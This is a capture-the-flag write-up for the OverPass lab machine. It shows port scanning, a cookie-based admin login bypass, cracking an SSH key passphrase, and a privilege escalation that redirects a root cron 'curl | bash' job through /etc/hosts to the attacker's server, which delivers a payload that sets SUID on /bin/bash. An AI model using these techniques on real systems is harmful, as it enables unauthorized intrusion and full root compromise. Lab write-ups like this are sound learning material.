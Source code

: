 # OverPass1 WriteUp

## Reconnaissance
First Thing First, let's find out how many ports we could find using nmap. 
```sh
nmap -sV -sC -oN nmap/initials [Machine_IP]
```
The result is:

1. 22/TCP SSH
2. 80/TCP HTTP

Open it using port 80 and it brought us to **Password Management** Download Page. Download the Go-Lang script. THe Script just tell us that it encrypt the password using ROT47 Caesar method.
Nothing is interesting, so let's just brute-force all hidden directories using gobuster.
```sh
gobuster dir -u [Machine_IP] -w [dirlist_path] php,js,html,py
``` 
Then we'll find an admin page, we have to insert the right password dan username to get access. If you look into the js file, you'll see that if we set a cookies as **SessionToken** with any value in it, we might get access as admin.
```sh
curl [Machine_IP] --cookie "SessionToken=Anything"
```
And we got access.

Inside, it tell us that there's a user named james and an rsa key. so lets just copy it, find the passphrase, then use it as out ssh access in port 22 (if possible)
## PassPhrase Hash Using Ssh2john
so, we have rsa key, save it as **id_rsa**, and let's bruteforce to find the passphrase using ssh2john
```sh
sudo ssh2john id_rsa > rsa.txt
```
then let's find what is the passphrase that have same hash as our hashed rsa.txt file
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt rsa.txt
```
it will return us a **james13** string, which we could use to connect via ssh remote access.
```sh
ssh -i id_rsa james@[Machine_IP]
```
and insert james13 as PassPhrase, and we gain access through ssh.

## Privilage Escalation Attempt
After we get access as james via ssh remote access,the next attempt will be finding "hole", which we can exploit to gain privillage escalation as root. As always, try s**sudo -l**, suid permition, etc. But we found nothing. So, let's check if there is an automation that being run by the system using **crontab** and ran by root.
```sh
cat /etc/crontab
```
The result is:
```sh
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
it runs buildscirpt.sh in bash, as root in every minute. Now let's seek more information using **linpeas**. 
You can download it from [here](https://github.com/carlospolop/PEASS-ng/releases/download/20230129/linpeas.sh). Then create a file named linpeas.sh, add executable permission, then run it.

After the process has done, we see that overpass.thm is running in localhost, so let's see if we can change the address to our machine, getting a connection, and run our modified **buildscript.sh** which giving us access to bash as root.
```sh
╔══════════╣ Hostname, hosts and DNS
overpass-prod                                                                                
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
#change overpass.thm ip to your tun0 ip
```
When we get to *Interesting writable files owned by me or writable by everyone (not in Home) (max 500)* section:
```sh
/dev/mqueue                                                                            
/dev/shm
/etc/hosts
/home/james
#etc....
```
we could modify hosts address. So let's just change it to our tun0 IP adn create /download/src/**buildscript.sh** script:
```sh
#buildscript.sh script
chmod +s /bin/bash
```
create a simple server using python:
```sh
#in our machine
sudo python3 -m http.server 80
```
After we did it, let's keep checking on our permission to bash using ls -la after the minute change.
```sh
#it will change like this
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```
After a minute, the /bin/bash access will change and if we do the **bash -p** command, we could access bash as root. got to root directory and we'll find out last flag which is **root.txt**






